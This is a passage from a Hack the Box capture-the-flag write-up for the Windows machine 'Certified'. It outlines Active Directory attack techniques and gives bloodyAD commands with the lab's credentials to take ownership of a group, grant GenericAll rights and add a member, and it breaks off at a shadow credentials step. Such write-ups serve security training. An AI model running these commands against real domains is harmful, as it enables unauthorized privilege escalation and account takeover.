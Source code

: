 # Certified

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
![image](https://github.com/user-attachments/assets/3d450477-a74d-497b-b96d-dacf1a0f743d)

2. judith.mader has WriteOwner permissions on management group which has GenericWrite privs on management_svc account
![image](https://github.com/user-attachments/assets/9f75d80d-89af-40a5-9972-eb0ff164c551)

3. change owner of management group to judith
	i. `python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 set owner "Management" judith.mader`
4. then give GenericAll privs to judith
	i. `python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add genericAll Management judith.mader`
5. then add judith to the management group
	i. `python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader`
6. now can run shadow credential attack on management_svc
  i. 
